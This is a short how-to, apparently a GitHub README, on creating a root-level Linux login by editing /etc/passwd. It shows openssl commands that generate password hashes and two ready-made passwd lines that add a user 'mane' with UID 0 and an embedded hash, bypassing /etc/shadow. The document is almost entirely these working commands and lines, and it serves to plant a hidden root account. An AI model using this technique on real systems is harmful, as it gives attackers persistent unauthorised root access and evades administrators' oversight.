 # Edit passwd to login

Try to edit `/etc/passwd` to create user and login without modify `/etc/shadow` files.

Write by manesec.

# 0x0 Generate password 

```bash
$openssl passwd -crypt mane
sMH3ZTiGRR4L6

$openssl passwd -1 -salt manehack manemane
$1$manehack$rerzZaiHYZZXpZsGcJF8n1
```

# 0x1 Edit `/etc/passwd`

```
mane:sMH3ZTiGRR4L6:0:0:root:/root:/bin/bash
mane:$1$manehack$rerzZaiHYZZXpZsGcJF8n1:0:0:root:/root:/bin/bash

```